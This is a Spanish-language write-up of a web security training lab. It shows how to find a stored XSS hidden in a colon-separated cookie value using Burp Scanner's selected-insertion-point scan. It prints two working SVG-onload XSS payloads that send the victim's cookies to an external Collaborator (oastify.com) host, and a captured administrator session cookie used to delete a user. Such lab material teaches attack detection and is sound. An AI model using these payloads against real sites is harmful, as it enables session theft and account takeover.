









## LAB



En este laboratorio explotaremos una vulnerabilidad escondida dentro de una estructura de datos poco común: una cookie compuesta por múltiples valores separados por dos puntos. Utilizamos la función `Scan selected insertion point` de Burp Scanner para analizar de forma precisa una parte específica de esa cookie, lo que nos permite descubrir una vulnerabilidad de Cross-Site Scripting almacenado que no sería evidente manualmente.









Tras confirmar la XSS, la aprovechamos para robar las cookies del administrador mediante una carga maliciosa que contacta con Burp Collaborator. PARa ello usaremos los siguientes payloads

```c
'"><svg/onload=fetch(`//2cf7twvndmnd23neaemdydlgc7iy6rug\.oastify.com/${btoa(document.cookie)}`)>:QWg0O4kAomOkpZEswG8H0HMEgAClqHDv
```

```c
'"><svg/onload=fetch(`//2cf7twvndmnd23neaemdydlgc7iy6rug\.oastify.com/${encodeURIComponent(document.cookie)}`)>:QWg0O4kAomOkpZEswG8H0HMEgAClqHDv
```

Luego de enviar las solicitudes podemos ver que nos llego varias solicitudes.





En las solicitudes vemos que se tiene la sesión del administrador, para luego reemplazarla en la cookie del administrador y liego eliminar al usuario carlos  

```c
Cookie: session=administrator%3a3RV9DbkxyvftzDMVPsssWKLRE9d2kMIk
```



